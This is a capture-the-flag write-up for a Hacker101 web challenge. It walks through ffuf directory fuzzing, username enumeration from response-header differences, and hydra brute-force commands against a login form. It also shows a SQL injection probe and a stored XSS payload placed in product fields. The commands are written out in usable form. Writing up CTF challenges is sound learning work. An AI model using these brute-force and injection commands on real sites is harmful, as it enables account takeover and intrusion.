 

Flag2


I had to start to fuzz the site trying to watch some subdomains on the site.
ffuf -c -w /usr/share/amass/wordlists/subdomains-top1mil-20000.txt -u https://be4a316f2803e92c5d9c0da273868cb0.ctf.hacker101.com/FUZZ


![[Screenshot_2023-09-19_10_34_40.png]]


We have a /login panel 

![[Screenshot_2023-09-19_10_38_18.png]]

I was trying with admin, administrator,  ' or 1=1 -- -

With zap proxy  Im trying to guess if there is a valid user 
![[Screenshot_2023-09-19_14_04_34.png]]

I only can see a difference on the size of the response headers some  of them , a little bit of them have 288 bytes and the others 233 bytes, this can be an indicator of  valid users. 

The difference on the header its on the connection header one says "close" and another says "keep-alive"

```
228

HTTP/1.1 200 OK  
Date: Tue, 19 Sep 2023 17:22:22 GMT  
Content-Type: text/html; charset=utf-8  
Content-Length: 378  
Connection: close  
Server: openresty/1.21.4.2  
Cache-Control: public, max-age=0  
Pragma: no-cache  
Expires: 0



233

HTTP/1.1 200 OK  
Date: Tue, 19 Sep 2023 18:20:02 GMT  
Content-Type: text/html; charset=utf-8  
Content-Length: 378  
Connection: keep-alive  
Server: openresty/1.21.4.2  
Cache-Control: public, max-age=0  
Pragma: no-cache  
Expires: 0

```



If you dont know how to do a bruteforce attack with zap here you have a guide, you must change the payload instead of passwords , put users. 

https://www.zaproxy.org/blog/2022-03-29-portswigger-lab-brute-force-password-change/

and here you have a list of usernames

https://gist.github.com/kivox/920c271ef8dec2b33c84e1f2cc2977fc


While I do this im trying with different users and passwords , in the real world this is impossible, even the attack trying to see if there is a possible user, you wont be able to try more than 3 or maybe 10 times , but I think there it is possible that yet exist some very unsecure sites.

```
hydra -L /home/cds/zapusers.txt  -P /home/cds/Downloads/wordlists/10k-most-common.txt 02a26dedb4d1c666091a8f79b98a65db.ctf.hacker101.com/login  https-post-form '/login:username=^USER^&password=^PASS^&Login=Login:Invalid username'
```
I made my own word list of the users that i found and im using another with the 10.000 most common passwords


I was using a lot of time brute force attacks with zap but it doesnt work. So I change the way to do this, first I downloaded a list of users. Then I did a brute force attack to the users.

```
hydra -L /home/cds/Downloads/wordlists/names.txt -p peperoni  0fedeabc10447f905116c52341b23b91.ctf.hacker101.com  https-post-form '/login:username=^USER^&password=^PASS^&Login=Login:Invalid username' -vv
```

![[Screenshot_2023-09-21_21_21_55.png]]



When I find the user I tied to find a password with rockyou.txt
```
┌──(cds㉿kali)-[~]
└─$ hydra -l moyra -P /usr/share/wordlists/rockyou.txt  0fedeabc10447f905116c52341b23b91.ctf.hacker101.com  https-post-form '/login:username=^USER^&password=^PASS^&Login=Login:Invalid password' -vv 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

```

And I did it !!


![[Screenshot_2023-09-21_21_22_02.png]]

Flag 2

Sometimes the most obvious thing is the first that you must do. In this case the vulnerability is on a XSS on the inputs of the website. First you need to log in with the credentials that you retrieve.

Then you must put something like this on the inputs that you can edit. 
```
<img src=x onerror=alert(1)>Puppy 8"x10" color glossy photograph of a puppy.|
```

You don't will be able to put it on the price input because it only accepts numbers.
Once you have did it you can put the item on the cart and then when you see the cart you will be able to see the flag
